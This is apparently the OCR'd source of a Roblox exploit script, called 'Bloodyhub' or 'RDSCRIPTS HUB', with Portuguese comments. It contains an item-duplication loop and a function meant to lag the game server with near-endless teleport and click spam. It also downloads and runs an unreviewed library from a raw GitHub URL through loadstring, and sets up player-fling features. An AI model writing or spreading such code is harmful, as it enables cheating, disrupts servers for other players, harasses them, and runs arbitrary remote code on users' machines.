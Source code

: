 --Start

local function dupeItem(itemPath, maxTeleports)
    if itemPath then
        local teleportCount = 0
        while teleportCount < maxTeleports do
            game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = itemPath.CFrame
            clickNormally(itemPath)
            teleportCount = teleportCount + 1
            wait(0.01) -- Tempo de espera para evitar travamento
        end
    end
end

local function getExecutor()
    return identifyexecutor and identifyexecutor() or "Unknown"
end

local function getPlayerCount()
    return #Players:GetPlayers()
end

local function getGameName()
    return game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId).Name
end

local function lagarServer()
--Spam
    local ghostMeterPath = workspace:FindFirstChild("WorkspaceCom"):FindFirstChild("001_GiveTools"):FindFirstChild("ElectricGuitar")
    if ghostMeterPath then
        local teleportCount = 0
        local maxTeleports = 99999999999999999999999999

        while teleportCount < maxTeleports do
            game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = ghostMeterPath.CFrame
            clickNormally(ElectricGuitar)
            teleportCount = teleportCount + 1
            wait(0.1) -- Executa rapidamente
        end
    else
        warn("Item ElectricGuitar não encontrado.")
    end
end

--Test v1
local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/Zeltau663/Ksepdo3jrmfoej3u44j/refs/heads/main/Zkm')))()
OrionLib:MakeNotification({
	Name = "inf",
	Content = "Bem - Vindo Ao Bloodyhub, Pode conter bugs e falhas!",
	Image = "rbxassetid://4483345998",
	Time = 10
})
local Window = OrionLib:MakeWindow({Name = "RDSCRIPTS HUB", HidePremium = false, SaveConfig = true, ConfigFolder = "Zalonteam",IntroEnabled = true, IntroText = "Zalon Team", IntroIcon = "rbxassetid://123573570247796"})
local flingActive = false
local loopFlingActive = false
local selectedPlayer = nil
local bodyVelocity, bodyAngularVelocity
